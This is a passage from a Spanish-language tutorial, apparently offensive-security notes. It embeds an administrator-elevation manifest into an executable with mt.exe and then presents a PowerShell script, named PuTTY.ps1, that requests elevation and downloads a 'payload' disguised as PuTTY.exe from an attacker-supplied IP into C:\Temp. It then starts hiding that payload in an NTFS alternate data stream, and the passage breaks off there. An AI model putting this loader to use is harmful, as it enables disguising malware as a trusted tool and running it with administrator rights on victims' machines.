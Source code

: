 Y esto lo guardamos en un `.manifest` en mi caso lo llame `elevate.manifest`, una vez hecho esto y teniendo el archivo `.exe` en la misma carpeta que el `.manifest` haremos lo siguiente.

Dentro de un cmd como administradores.

```shell
cd C:\<PATH_MANIFEST_AND_EXE>\
```

> Ejemplo:

Yo en mi caso lo tengo en mi escritorio en el usuario llamado `user`.

```shell
cd C:\Users\user\Desktop\
```

Aqui en este comando lo que hara sera implementar ya el que te pida que se ejecute como administrador, pero donde pone `<FILE>.exe` se cambiara por tu `.exe` y en la ruta `C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\mt.exe` se cambiara por tu version de `mt.exe` que tenga en ese momento, lo unico que cambiara lo mas seguro sea esta parte `\10.0.26100.0\` siempre coge la version mas alta.

```shell
"C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\mt.exe" -manifest "C:\Users\user\Desktop\elevate.manifest" -outputresource:"C:\Users\user\Desktop\<FILE>.exe;#1"
```

Info:

```
Microsoft (R) Manifest Tool                                                        Copyright (c) Microsoft Corporation.                                               All rights reserved.
```

Hecho esto, ya tendriamos nuestro archivo para que solicite ejecutarlo como administrador.

## <mark style="color:purple;">Compatibilidad con Windows 10 y 1</mark>1

Para los pasos mencionados anteriores el codigo que esta en `.bat` habra que pasarlo a `.ps1` (PowerShell) ya que a veces no funciona con el cmd solo.

Crearemos el archivo `PuTTY.ps1`.

> PuTTY.ps1

```shell
# Verificar si el script se está ejecutando como administrador
if (-not [bool](Test-Path "$env:windir\System32\WindowsPowerShell\v1.0\powershell.exe")) {
    Write-Output "Solicitando privilegios de administrador..."
    Start-Process powershell -ArgumentList "-File `"$PSCommandPath`"" -Verb RunAs
    exit
}

try {
    # Crear directorio Temp si no existe
    Write-Output "Creando directorio Temp..."
    if (-not (Test-Path "C:\Temp")) {
        New-Item -Path "C:\Temp" -ItemType Directory -ErrorAction Stop
    }

    # Descargar el archivo payload
    Write-Output "Descargando payload..."
    Invoke-WebRequest -Uri 'http://<IP>/PuTTY.exe' -OutFile 'C:\Temp\payload.exe' -ErrorAction Stop

    # Mover el archivo descargado
    Write-Output "Moviendo payload a Temp..."
    Move-Item -Path 'C:\Temp\payload.exe' -Destination 'C:\Temp\' -ErrorAction Stop

    # Crear el flujo alternativo NTFS
```
